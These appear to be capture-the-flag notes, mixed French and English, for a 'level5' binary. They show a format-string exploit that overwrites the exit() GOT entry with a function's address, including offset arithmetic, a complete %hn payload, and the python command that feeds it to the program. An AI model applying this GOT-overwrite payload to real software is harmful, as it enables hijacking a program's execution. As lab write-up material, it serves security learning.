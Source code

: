 adresse de O : 0x080484a4 --> \xa4\x84\x04\x08   
(HELLO Func : 080484cb --> \xcb\x84\x04\x08)

adresse de l'exit du GOT : 08049838 --> \x38\x98\x04\x08   
(080498ac --> \xac\x98\x04\x08)


Le but est de changer la valeur pointee par le exit du GOT par l'adresse de la fonction O


    \x38\x98\x04\x08\xae\x98\x04\x08%<val1>x%4$hn%<val2>x%5$hn

On veut ecrire l'adresse du O : 0x080484a4


- Low order bytes = 84a4 (33956 in decimal)
- High order bytes = 0804 (2052 in decimal)

However, the high order bytes is inferior to the low order so, we’ll write the high order first! We just need to invert the addresses where we want to write! Let’s do some math:


- High order bytes = 0804 (2052 in decimal). Minus the 8 bytes for the addresses = 2044 (7FC en hexa)
- Low order bytes = 84a4 (33956 in decimal). Minus the 2052 bytes we already wrote = 31904 (7CC7 en hexa)

son exploit : \xae\x98\x04\x08\xac\x98\x04\x08%2044x%4$hn%31943x%5$hn

Notre exploit :
\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn

(On mets deux fois l'adresse du exit, mais en premier on fait + 2 bytes a la fin de l'adresse)

Commande a lancer : 

> (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"' ; cat -) | ./level5


